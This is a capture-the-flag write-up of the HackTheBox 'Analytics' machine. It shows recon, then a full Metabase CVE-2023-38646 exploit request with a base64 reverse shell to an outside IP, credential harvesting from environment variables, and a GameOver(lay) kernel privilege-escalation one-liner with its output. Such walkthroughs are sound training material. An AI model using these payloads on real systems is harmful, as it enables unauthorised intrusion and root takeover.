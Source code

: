 # HackTheBox: Analytics [easy]

## Reconnaissance 
An initial Nmap scan revealed only 2 open ports:

```
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This revealed SSH running on port 22 and an nginx web server on port 80. Both telling us it's a server running Ubuntu.

The next step was to further enumerate the web application, but first, I added the IP address to /etc/hosts:
```
echo "10.10.14.233 analytical.htb" | sudo tee -a /etc/hosts
```

## Initial Foothold
### Exploring the Web Application
Browsing to http://analytical.htb brought up a simple login page. Intercepting requests with Burp revealed a redirect to http://data.analytical.htb, so I added that subdomain to /etc/hosts.

Visiting http://data.analytical.htb displayed a login page for Metabase, an open source business intelligence tool. Default credentials did not work on the login.
![](../../../assets/htb/analytical/metabase-login-page-in-browser.png)

After some research, I discovered Metabase has a recently disclosed pre-authentication RCE vulnerability [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646).
This bug in Metabase, involved a retained 'setup-token' post-installation, accessible to unauthenticated users. This flaw, resulting from a codebase refactoring oversight, allowed exploitation via SQL injection in the H2 database driver during the Metabase setup phase. The exploit enabled pre-authentication Remote Code Execution (RCE) by manipulating database connection validation steps.

The next step was finding a Proof of Concept exploit for this vulnerability to gain initial access. The search was not long, as there was a very nice writeup with PoC by AssetNote on their [blog page](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).


The following payload can be used to obtain a reverse shell on the system:
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=4f9146b3-7b53-471e-9f10-4232d6856b1d
If-Modified-Since: Fri, 13 Oct 2023 06:45:20 GMT
Connection: close
Content-Length: 822

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
The value of YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg decoded is `bash -i >&/dev/tcp/10.10.14.36/5555 0>&1  `. You must encode this with your own IP and port, and then modify the payload above before sending it. For some reason it won't work if there are any "=" signs in the base64 payload, so make sure you don't have them. 
You can add spaces in the end of the payload before base64 encoding it, to adjust the padding.
![](../../../assets/htb/analytical/metabase-exploit-request-in-burp.png)

This exploit allowed me to gain a reverse shell from the underlying system, but there was no user flag in there, so I started exploring what's around...

### Finding Credentials

I checked /proc/self/environ for any environment variables:

`76574c6ca049:~$ cat /proc/self/environ`
```yaml
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=
LANGUAGE=en_US:en  
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8  
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/cat
OLDPWD=/home/metabase/.ssh
```

This revealed credentials:
```yaml
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

I tried to SSH into the server with those and:

```
ssh metalytics@analytical.htb
```
i was in and could read the flag:
```
Last login: Wed Nov 15 01:55:43 2023 from 10.10.14.36
metalytics@analytics:~$ cat user.txt
dc3b************************c327
```

## Privilege Escalation to Root
After gaining initial access to the Analytical server as the `metalytics` user, I began searching for ways to escalate privileges and obtain access to the root user account.

`sudo -l` didn't work
```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

`uname -a`
```
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```
From top of my head I could remember that there was an Ubuntu kernel related privesc vulnerability discovered very recently, so I simply decided to try it out.
[New Container Exploit: Rooting Non-Root Containers with CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

 It is so simple, that fits in one line: 
`
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
`

So, let's try it:
```
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ ls -la /root
ls: cannot open directory '/root': Permission denied
metalytics@analytics:~$
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:~# ls -la /root
total 48
drwx------  6 root root 4096 Aug 25 15:14 .
drwxr-xr-x 18 root root 4096 Aug  8 11:37 ..
lrwxrwxrwx  1 root root    9 Apr 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27  2023 .cache
drwxr-xr-x  3 root root 4096 Apr 27  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 Aug 25 15:14 .scripts
-rw-r--r--  1 root root   66 Aug 25 15:14 .selected_editor
drwx------  2 root root 4096 Apr 27  2023 .ssh
-rw-r--r--  1 root root   39 Aug  8 11:30 .vimrc
-rw-r--r--  1 root root  165 Aug  8 11:53 .wget-hsts
-rw-r-----  1 root root   33 Nov 15 00:54 root.txt
root@analytics:~# cat /root/root.txt
fe46************************afd0
root@analytics:~#
```
### Path from initial access to root
![](../../../assets/htb/analytical/path-from-initial-user-to-root.gif)

## Conclusion

The key steps were thorough reconnaissance, pinpointing a logical exploit chain, adapting public PoCs, and continuous enumeration for additional attack surface. Combining patience, research, and technical skills allowed me to achieve the goal.